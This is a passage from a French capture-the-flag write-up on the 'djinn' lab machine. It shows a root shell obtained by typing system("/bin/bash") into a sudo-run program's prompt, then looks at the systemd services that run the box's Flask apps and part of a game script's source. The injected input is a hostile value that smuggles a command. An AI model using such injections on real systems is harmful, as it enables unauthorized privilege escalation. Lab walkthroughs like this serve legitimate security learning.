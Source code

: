 Quoiqu'il en soit on peut exploiter cette particularité pour obtenir un shell sans avoir à deviner le nombre :

```bash
sam@djinn:~$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:system("/bin/bash")
root@djinn:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant voyons un peu le code qui tournait sur le port 1337 du début. J'en retrouve la piste dans `/etc` :

```bash
root@djinn:/root# grep -r -i flask  /etc/
/etc/systemd/system/lfi.service:ExecStart=/bin/bash -c "/usr/local/bin/flask run --host 0.0.0.0 --port 7331"
/etc/systemd/system/game.service:ExecStart=/bin/bash -c "/usr/local/bin/flask run --host 0.0.0.0 --port 1337"
```

L'auteur a créé un service systemd :

```systemd
[Unit]
Description=game
After=network.target

[Service]
User=root
WorkingDirectory=/opt/1337
ExecStart=/bin/bash -c "/usr/local/bin/flask run --host 0.0.0.0 --port 1337"
Restart=always

[Install]
WantedBy=multi-user.target
```

Le script a un entête Python 3 :

```python
#!/usr/bin/env python3
import sys
from random import choice, randint
from pyfiglet import print_figlet

def add(a,b): return a+b
def div(a,b): return int(a/b)
def multiply(a,b): return a*b
def sub(a,b): return a-b

print_figlet("Game Time")
print("Let's see how good you are with simple maths")
print("Answer my questions 1000 times and I'll give you your gift.")

OPERATIONS = ['+', '-', "/", "*"]

def main():
    for i in range(1001):
        a = randint(1,9)
        b = randint(1,9)
        op = choice(OPERATIONS)

```